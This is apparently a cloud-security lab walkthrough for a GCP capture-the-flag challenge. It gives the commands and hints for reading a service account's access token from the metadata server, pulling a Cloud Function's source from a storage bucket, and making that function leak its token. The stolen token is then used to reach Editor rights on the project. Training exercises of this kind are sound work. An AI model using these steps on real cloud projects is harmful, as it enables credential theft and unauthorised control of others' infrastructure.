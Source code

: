 ### Challenge 4: Invoking answers

You can control a compute instance in the project! Let's look around a bit to find out what this instance can do.  
Your compute instance has a GCP service account assigned to it, allowing it to interact with the GCP APIs.  
Check which service account this instance uses and what this account can do.  
#####
    gcloud auth list

**Background info**:  
Resources such as compute VMs use the Google metadata server endpoint to get an access token for their assigned service account.  
As you now have access to the compute VM, you could also query the metadata server and retrieve information such as the VMs service account or its access token. For example you can use this endpoint to get information about the VMs service account:  
#####
    curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/" -H "Metadata-Flavor: Google"

As the compute instance has gcloud installed, using `gcloud auth list` or `gcloud auth print-access-token` is more convenient though.  

The service account of this compute engine is the default compute service account! A very powerful account in GCP.  
By default, it has the "Editor" role on a GCP project! But before getting too excited ... try using some of your new powers:  
#####
    gcloud compute instances list
"Request had insufficient authentication scopes". That is disappointing.  
You can list your OAuth access scopes with this command:  
#####
    curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$(gcloud auth print-access-token)

That last access scope looks promising. The access scope `devstorage.read_only` allows you to read all storage buckets in the project.  

#### Useful commands and tools:
- the compute engine also has gcloud installed
- `gcloud auth list`
- `gcloud auth print-access-token`
- `gcloud auth print-identity-token`
- [GCP oauth access scopes](https://developers.google.com/identity/protocols/oauth2/scopes#storage)
- `gsutil ls gs://<..>`
- `gsutil cat gs://<..>`
- `curl -H "Authorization:Bearer <token>" https://...`
- [Metadata server](https://cloud.google.com/functions/docs/securing/function-identity#access-tokens)

#### Hints

<details>
  <summary>Hint 1</summary>

  List all storage buckets in the project. You can run the `gsutil` commands from the compute VM:  
  #####
      gsutil ls 
  There is an additional bucket that you couldn't access before. You can list and read the content on this bucket:
  #####
      gsutil ls gs://cloud-function-bucket-challenge4
  #####
      gsutil cat gs://cloud-function-bucket-challenge4/main.py
  A script on the compute engine can also give you more hints on how to use the new resource you found.

</details>

<details>
  <summary>Hint 2</summary>

  A cloud function is running in the project. When deploying a cloud function in GCP, its source code gets uploaded onto a storage bucket. As you have read access to the buckets, you can investigate what this function does.  
  A script in Alice's home directory on the compute VM tells you how to invoke the function.  
  Someone had it return information from the metadata server for debugging purposes...

</details>

<details>
  <summary>Hint 3</summary>
    
  The script on the compute VM invokes the function. You can modify that request and ask the function to return its access token instead of its service account email:
  #####
      curl -s -X POST https://europe-west1-$PROJECT_ID.cloudfunctions.net/challenge4-function -H "Authorization: bearer $(gcloud auth print-identity-token)" -H "Content-Type: application/json" -d '{"metadata": "token"}'

</details>

### Summary

You extracted a new access token! Let's see what this one can do.  
You can use the tokeninfo endpoint again to find out:  
#####
    curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=<token>
Cloud functions by default are also using the compute engine default service account - but with the full `cloud-platform` access scope!  

That should get you a set of nice new permissions on this GCP project.  
You can tell gcloud to use your new token by setting it as environment variable:  
#####
     export CLOUDSDK_AUTH_ACCESS_TOKEN=<function token>

Now, let's try to list the IAM policy on this GCP project to see which project-level access your account has:  
#####
    gcloud projects get-iam-policy $PROJECT_ID

You are Editor on this project which allows you read and write access to almost all resources.  
Congratulations! You compromised this GCP project.  
